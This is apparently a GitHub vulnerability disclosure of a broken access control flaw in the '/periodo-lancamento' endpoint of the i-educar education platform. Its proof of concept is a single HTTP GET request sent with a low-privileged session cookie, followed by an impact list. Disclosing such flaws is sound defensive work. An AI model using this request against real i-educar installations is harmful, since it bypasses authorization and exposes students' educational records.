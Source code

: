 # Broken Access Control  in `/periodo-lancamento` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/periodo-lancamento` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /periodo-lancamento`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1603" height="673" alt="Pasted image 20250914131157" src="https://github.com/user-attachments/assets/3f4e8bcd-e2e8-4468-a57f-d1e631ff934b" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/2caed485-5950-43d1-a8bb-f601322a7c1a" />

    
2. Send the following request::

```
GET /periodo-lancamento HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

<img width="967" height="657" alt="Pasted image 20250914131656" src="https://github.com/user-attachments/assets/d424e8da-cc81-475f-bd68-b8e52f5ac85d" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
